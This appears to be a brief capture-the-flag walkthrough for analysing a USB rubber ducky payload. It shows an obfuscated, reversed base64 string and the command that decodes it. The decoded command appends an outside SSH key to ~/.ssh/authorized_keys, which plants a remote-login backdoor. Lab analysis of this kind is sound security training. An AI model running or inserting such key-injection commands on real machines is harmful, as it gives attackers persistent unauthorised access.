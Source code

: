 # Inspect ducky script
run the `mallard.py` script to inspect the rubber ducky script.
```bash
./mallard.py -f /mnt/USBDEVICE/*.bin
```

# Decode the hidden script
```bash
echo "==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ" | rev | base64 -d

echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```

## Copy/Paste
```bash
tmux set -g mouse off # disables the mouse in the tmux session, will break selecting the answer prompt
tmux set -g mouse on # enables the mouse in the tmux session, allow you to select the answer prompt
```
